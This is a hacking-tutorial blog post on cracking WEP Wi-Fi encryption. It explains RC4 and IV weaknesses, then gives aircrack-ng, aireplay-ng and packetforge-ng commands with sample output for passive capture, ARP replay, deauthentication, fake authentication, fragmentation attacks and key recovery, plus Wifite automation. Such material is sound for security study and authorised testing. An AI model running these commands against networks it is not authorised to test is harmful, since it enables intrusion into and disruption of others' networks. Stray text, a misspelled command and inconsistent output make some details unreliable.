





In Part 3 of our Wireless Hacking series, we will delve into the practical application of wireless attacks. After exploring the basics of Wi-Fi and setting up a safe testing environment, it’s time to get hands-on. In this post, we’ll focus on attacking WEP (Wired Equivalent Privacy) — a once-standard but now outdated and highly vulnerable wireless encryption protocol.

In this post, you’ll learn how WEP works, the cryptographic weaknesses it suffers from, and step-by-step how to exploit these flaws using tools like **aircrack-ng** and **aireplay-ng**. By the end, you’ll understand why WEP is obsolete and how attackers can recover a WEP key within minutes.

> [!CAUTION]
> **Ethical Hacking Reminder**: Only perform wireless penetration tests on networks you own or have explicit permission to test. Unauthorized hacking is illegal and unethical.

## RC4/ Stream Cipher

The process starts when the user creates a root key of size 128 bits. This root key is then encrypted using the RC4 algorithm, which generates a keystream. Once the keystream is generated, it is combined with the plaintext data using an XOR gate (logical operation). The result of this operation gives us the **ciphertext**, which can then be sent.



## WEP Packet

The process of sending a packet using WEP begins with appending a 24-bit Initialization Vector (IV) to the root key. This new combined key is then input into the RC4 encryption algorithm, which generates a keystream unique to that packet. Next, this keystream is combined with the plaintext data using an XOR operation, producing the ciphertext that will be transmitted over the wireless network.

Since the IV changes with every packet, it is appended along with the ciphertext. This is necessary because the receiving device (such as a router) needs the IV to recreate the same keystream and correctly decrypt the message. Without the IV, decryption would not be possible, as the key would not match the keystream used for encryption.



## Router-side Decryption

During router-side decryption, the process begins by appending the root key with the 24-bit Initialization Vector (IV) extracted from the received data packet. This new key is then used as input to the RC4 algorithm, which generates a pseudorandom keystream. Next, this keystream is combined with the ciphertext using an XOR operation.



The result is the original data stream requested by the device. However, it is important to note that the mathematical weaknesses of RC4 expose this method to vulnerabilities: by collecting enough keystreams associated with different IV values, an attacker can analyze the data to recover the network’s secret key.

## Methodology

Cracking a wireless network — especially one secured with WEP — relies on a deep understanding of stream cipher mechanics. At the heart of this process is the extraction of a keystream, a pseudorandom sequence used to encrypt data. To obtain the keystream, you need both ciphertext and at least a portion of the plaintext. By XORing the two, the keystream can be revealed, which can then be reused to decrypt other packets or even recover the original WEP key.



The first practical step is capturing ciphertext, which is relatively straightforward. By setting your wireless interface to monitor mode, you can passively listen to all wireless traffic in range. This allows you to capture encrypted packets — including ARP requests and broadcast messages — without needing to be connected to the network. These packets become the foundation for further steps like traffic injection, keystream recovery, and ultimately key extraction.

This methodology is central to WEP cracking and sets the stage for more advanced techniques, such as ARP replay attacks and dictionary-based keystream matching, which exploit predictable plaintext to speed up the attack process.

### Capture Ciphertext

Capturing ciphertext is relatively simple.
By setting the network adapter to monitor mode, it becomes possible to listen to and collect wireless data packets transmitted over the air.

### Retrieve Plaintext

Extracting the plaintext from encrypted packets is a more complex task. Fortunately, the ARP (Address Resolution Protocol) provides useful assistance in this process. ARP operates with two primary packet types: requests and replies. An ARP request is essentially a broadcast message that asks for the MAC address corresponding to a specific IP on the local network — for instance, “Who has IP 10.20.242.34?” In turn, the device with that IP responds with an ARP reply, sharing its MAC address, such as “I have 10.20.242.34, MAC address e4:35:54:ad:4f:45.”

A key point is that both ARP request and reply packets contain a header of fixed, predictable length — 16 bytes. By capturing these packets, it is possible to know part of the plaintext in advance. This known plaintext can then be used to recover the initial bytes of the encryption keystream. Therefore, capturing a large number of ARP packets significantly aids the decryption effort.

However, the attack demands a substantial volume of packets — on the order of 10,000 — to be effective. Such high traffic is typically found only on busy networks, making it challenging to gather enough data. To address this limitation, attackers often resort to an ARP replay technique.

### Arp Replay attack

With an ARP replay attack, an adversary captures an ARP request and repeatedly injects it into the network. This forces the client or network devices to generate many packets, each with new initialization vectors and keystream fragments. By collecting these replayed packets, the attacker gains access to a wealth of encrypted data that can be analyzed. For example, sending a single ARP request repeatedly in a network with one client can produce multiple keystream samples to capture and exploit.



## Exploiting WEP

To sniff packets on a network without being connected, you need to switch your wireless adapter into **monitor mode**. This special mode allows the adapter to capture all wireless traffic in its vicinity, unlike the default managed mode which only processes packets addressed to your device. Monitor mode is essential for tasks such as network analysis and packet sniffing.

First, you need to identify the wireless adapter you want to use. You can do this by running the command `iwconfig`, which lists all wireless interfaces and their current modes. Once you know the adapter’s name (for example, `wlan0`), you can change its mode from managed to monitor using the command `sudo airmon-ng start wlan0`.

> [!NOTE]
> On some wireless adapters, enabling monitor mode creates a new interface with a `mon` suffix (e.g., `wlan0mon`). However, some adapters, like the Realtek RTL8814AU, enable monitor mode directly on the existing interface without renaming it.ar15 lf556ar15 lf556

After switching to monitor mode, you can verify that the change was successful by running `iwconfig` again. This will show the new mode and the updated interface name. When you are done with packet sniffing and want to revert to the standard managed mode, you can stop monitor mode by running `sudo airmon-ng stop wlan0` (or the appropriate interface name). This will restore your adapter to its normal state, ready to connect to networks as usual.

Switching to monitor mode is a powerful technique that gives you deep insight into wireless traffic around you, but remember to always use it responsibly and respect privacy and legal guidelines.

### Case 1: Capturing Packets (WEP Passive Attack)

As remembered from our discussion above, we know that we need to get keystreams along with different IVs, and to achieve this, we need both ciphertext and plaintext. To obtain plaintext data, we will make use of ARP packets. So, let’s capture those packets. In this example, we are assuming the network is busy, so we will not combine this with an ARP replay attack and will simply try to get as many keystreams as possible.

First, change your network adapter mode to monitor. You can do this by running the following command, replacing `wlan0` with your adapter’s monitor mode interface name if different

Once this is done, use `airodump-ng` followed by the name of the adapter to list all available Access Points nearby. You will see a list of networks, and you need to identify the ones where the ENC used is WEP.

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng wlan0

 CH 14 ][ Elapsed: 36 s ][ 2025-06-01 20:36 ][ enabled AP selection                                                                                         
                                                                                                                                                            
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                            
                                                                                                                                                            
...                                                                 
 XX:XX:XX:XX:XX:XX  -28       57     2256   29   3   54   WEP  WEP         wifi-old                                                                         

 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes
                                                                                        
 XX:XX:XX:XX:XX:X   XX:XX:XX:XX:XX:XX  -29   54 -54   1737     2252                                                                                         
 (not associated)   XX:XX:XX:XX:XX:XX  -49    0 - 1      0        2                                                                                         
 (not associated)   XX:XX:XX:XX:XX:XX  -49    0 - 1      0        2                                                                                         
 ...
```

In my case, the Access Point named `wifi-old` is using a WEP connection. Now we will capture packets from this target network.
To do so, run the following command to capture packets, replacing the BSSID and channel with those of the victim network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng --bssid <target-BSSID> -c <channel> -w wep.cap wlan0

CH  3 ][ Elapsed: 24 s ][ 2025-06-01 20:41            
                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH 
                                                       
 XX:XX:XX:XX:XX:XX  -28   0      268    10561  384   3 
                                                       
 BSSID              STATION            PWR    Rate     
                                                       
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -29   54 -54      0    10534 
```

The `--write` option saves all captured packets to the specified file. Capture around 10,000 packets; the capture file will be saved in your current working directory.
After you have enough packets, run `airecrack-ng` with the capture file to try and recover the password:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airecrack-ng wep.cap

Reading packets, please wait...
Opening capture-01.cap
Read 24937 packets.

   #  BSSID  Got 24776 out of 20000 IVsStarting PTW attack with 24776 ivs.

   1  XX:XX:XX:XX:XX:XX  <ESSID>                 WEP (24776 IVs)

Choosing first network as target.

Reading packets, please wait...
Opening capture-01.cap
Read 24937 packets.

1 potential targets

Attack will be restarted every 5000 captured ivs.

                  Aircrack-ng 1.7 


    [00:00:00] Tested 6 keys (got 24776 IVs)

   KB    depth   byte(vote)
    0    0/  1   XX(35840) XX(32256) XX(30208) 
    1    0/  5   XX(32000) XX(31232) XX(31232) 
    2    0/  1   XX(34816) XX(31232) XX(30976) 
    3    0/  1   XX(33792) XX(31744) XX(30976) 
    4    0/  1   XX(32768) XX(31488) XX(31488) 

                         KEY FOUND! [ XX:XX:XX:XX:XX ] 
        Decrypted correctly: 100%

```

### Case 2: Accelerating ARP Replay (WEP Active Attack)

In Case 1, we passively captured packets on a busy network to collect enough IVs to eventually crack the WEP key. However, this approach becomes inefficient on a quiet or low-traffic network. To address this, we can trigger the network to generate traffic using an **ARP replay attack**. This method injects ARP requests, which forces the Access Point to respond, thereby increasing the number of encrypted packets (and IVs) we can collect.

This is considered an **active attack** because we are actively injecting packets into the network to provoke responses.

This approach is effective when at least one client is associated with the access point. Without an active client, this method won’t work.

First, make sure your wireless adapter is in monitor mode.

Use the following command to start listening and identify a WEP-encrypted network and its associated clients:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ airodump-ng wlan0
```

We associate ourselves with the access point so it accepts our injection packets. This is done using the following command:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -1 3600 -q 10 -a <target-BSSID> wlan0

Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
Authentication successful
Association successful :-) (AID: 1)
Sending keep-alive packet every 10 seconds...
```

- `-1` Fake auth attack
- `3600` Keep association for 1 hour
- `-q 10` Send keep-alive every 10 seconds
- `-a` BSSID of the target AP

The **BSSID**, **channel**, and a client’s MAC address connected to the target network. Once identified, start a targeted packet capture:

> [!TIP]
> If no clients are currently connected, you won’t be able to perform the ARP replay attack effectively. Consider switching to a different AP or wait until a device connects.

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ airodump-ng --bssid <target-BSSID> -c <channel> -w wep-arp wlan0
```

Then, in another terminal, send ARP request packets to stimulate traffic:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ aireplay-ng --arpreplay -b <target-BSSID> -h <client-MAC> wlan0

18:57:12  Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
18:57:13  Found BSSID "XX:XX:XX:XX:XX:XX" on channel 6
18:57:14  Using the MAC address of the client: XX:XX:XX:XX:XX:XX
18:57:15  Sending ARP request packets...
18:57:16  Got ARP request from client XX:XX:XX:XX:XX:XX
18:57:16  Injecting ARP request to access point
18:57:17  ARP packet reinjected successfully (1/30 sent)
18:57:18  ARP packet reinjected successfully (2/30 sent)
18:57:19  ARP packet reinjected successfully (3/30 sent)
...
```

- `-b` BSSID of the target access point.
- `-h` MAC address of the associated client.

You should start seeing a significant increase in the number of captured data packets in your `airodump-ng` session.

Once you’ve captured enough IVs (typically 10,000+), attempt to crack the key using:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ aircrack-ng wep-arp.cap
```

If successful, the WEP key will be displayed, allowing access to the network.

> [!TIP]
> If you don't see packets increasing, try sending a few deauth packets to refresh the client's connection:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ aireplay-ng --deauth 5 -a <target-BSSID> -c <client-MAC> wlan0

18:55:44  Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
18:55:45  Sending DeAuth to station -- STMAC: [XX:XX:XX:XX:XX:XX]
18:55:45  DeAuth packet sent 1/5
18:55:46  DeAuth packet sent 2/5
18:55:47  DeAuth packet sent 3/5
18:55:48  DeAuth packet sent 4/5
18:55:49  DeAuth packet sent 5/5
```

At the end of the process, remember to disable monitor mode and switch your adapter back to managed mode

### Case 3: Fragmentation Attack Authentication (WEP Active Advanced Attack)

In the first two cases, we focused on capturing packets either passively or actively by accelerating traffic through ARP replay attacks. Both techniques depend on the presence of at least one client connected to the WEP network to generate sufficient encrypted traffic. But what if the network is quiet, or no clients are connected? In such scenarios, traditional ARP replay attacks fail because there is no traffic to capture or stimulate.

This third case explores an advanced attack combining **fragmentation** and **fake authentication** techniques. Fragmentation attacks exploit how WEP handles small packet fragments, allowing us to recover a portion of the keystream without needing the full data packet. Once the keystream is recovered, it is possible to forge a valid encrypted packet — typically an ARP request — which can then be injected into the network. This injection triggers the Access Point to respond and generate new encrypted packets with fresh Initialization Vectors (IVs).

The beauty of this method is that it works even on idle networks without any active clients, filling the gap left by the previous techniques. It highlights a critical weakness in WEP’s design and makes cracking such networks feasible.

To start, you first need to put your wireless adapter into monitor mode, enabling packet capture and injection on the wireless channel:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airmon-ng start wlan0
```

Next, scan for WEP-enabled Access Points in range:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng wlan0
```

Identify your target by its BSSID and operating channel. Once identified, begin capturing packets specifically from this AP:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng --bssid <BSSID> -c <channel> -w wep_frag wlan0
```

Since you have no legitimate client to associate with, perform a fake authentication to trick the AP into accepting your injections:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -1 0 -a <BSSID> -h <fake-MAC> wlan0
```

This creates a fake association that allows packet injection.
Now, launch the fragmentation attack to recover a partial keystream by exploiting small packet fragments sent by the AP:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -5 -b <BSSID> -h <fake-MAC> wlan0
```

Once a keystream is extracted, forge an encrypted ARP request packet using the recovered keystream. This forged packet will be used to inject traffic and stimulate the network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo packetforge-ng -0 -a <BSSID> -h <fake-MAC> -k <source-IP> -l <destination-IP> -y <keystream-file> -w arp-request

Using packet type: ARP Request
Reading IVs from keystream file: keystream.txt

Forge a packet with the following parameters:

  Source MAC address : 66:77:88:99:AA:BB
  Destination MAC    : Broadcast (FF:FF:FF:FF:FF:FF)
  BSSID             : 00:11:22:33:44:55
  Packet type       : ARP Request

Writing forged packet to arp-request

Forge completed successfully.
```

- `-0` Forge ARP request packet (packet type 0)
- `-a` BSSID of the target Access Point
- `-h` Fake MAC address to use as source
- `-k` Source IP address
- `-l` Destination IP address
- `-y` Keystream file generated from fragmentation attack
- `-w` Output file name to save the forged packet

Inject the forged packet into the network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -2 -r arp-request wlan0
```

This injection causes the AP to generate new encrypted packets, increasing the number of IVs available for capture.
With traffic now stimulated, continue to collect IVs with an ARP replay attack:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng --arpreplay -b <BSSID> -h <fake-MAC> wlan0
```

Monitor the number of IVs captured until you have enough (usually 10,000+).
Finally, crack the WEP key using aircrack-ng:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aircrack-ng wep_frag.cap
```

If successful, you will obtain the WEP key and gain access to the network.

## Automation WEP

As we continue to explore wireless security in a controlled and isolated environment, we can utilize tools like Wifite2 to audit and capture network data. For example, the following command:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo wifite --kill
   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.7.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
 `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2

 [+] option: kill conflicting processes enabled
 [+] Using wlan0 already in monitor mode                                                                         
```

This command helps stop conflicting processes (like `NetworkManager` or `wpa_supplicant`), and sets your wireless interface to monitor mode, which is essential for packet sniffing and capturing data from nearby networks. Once in monitor mode, you can analyze various wireless networks in your environment.

Here is a sample of the output you might see when running wifite:

```bash
   NUM                      ESSID   CH  ENCR    PWR    WPS  CLIENT                                               
   ---  -------------------------  ---  -----   ----   ---  ------
     1       (1X:XX:XX:XX:XX:XX)     1  WPA     99db    no                                                       
     2       (2X:XX:XX:XX:XX:XX)    11  WPA     99db    no                                                       
     3              WIFI01-GUEST     8  WPA-P   63db    no                                                       
     4              WIFI02-GUEST     6  WPA-P   38db  lock                                                       
     5       (3X:XX:XX:XX:XX:XX)     6  WPA     38db    no                                                       
     6              WIFI03-GUEST     6  WPA-P   30db  lock                                                       
     7       (4X:XX:XX:XX:XX:XX)     6  WPA     29db    no                                                       
     8       (5X:XX:XX:XX:XX:XX)     1  WPA-P   21db    no                                                       
     9              WIFI04-GUEST     1  WPA-P   20db   yes                                                       
    10              WIFI05-GUEST     6  WPA-P   20db   yes                                                       
    11              WIFI06-GUEST    11  WPA-P   19db  lock
```

In this list, each entry represents a wireless access point (AP) detected within range, with information about its ESSID (network name), channel, encryption type, signal strength (PWR), WPS status, and connected clients.

This tool is essential for understanding and evaluating the security of wireless networks within a controlled and isolated environment, providing insight into nearby networks and preparing for more complex penetration testing in future parts of this series.

## Conclusion

In this third part, we focused on the practical weaknesses of the WEP encryption protocol. We explored passive and active attack techniques, including packet capturing, ARP replay injection, and fragmentation attacks combined with fake authentication. These real-world examples highlighted why WEP is no longer considered secure and should be avoided whenever possible.

Additionally, we introduced automation tools like **Wifite** to streamline the process of auditing WEP networks, making attacks more accessible while reinforcing the importance of understanding the underlying concepts.

With a solid grasp of WEP vulnerabilities and attack methods, we are now ready to move forward and tackle more modern wireless security protocols. In the next part, we will dive into WPA and WPA2, uncovering their strengths and weaknesses, and learning how to capture handshakes and perform dictionary attacks.
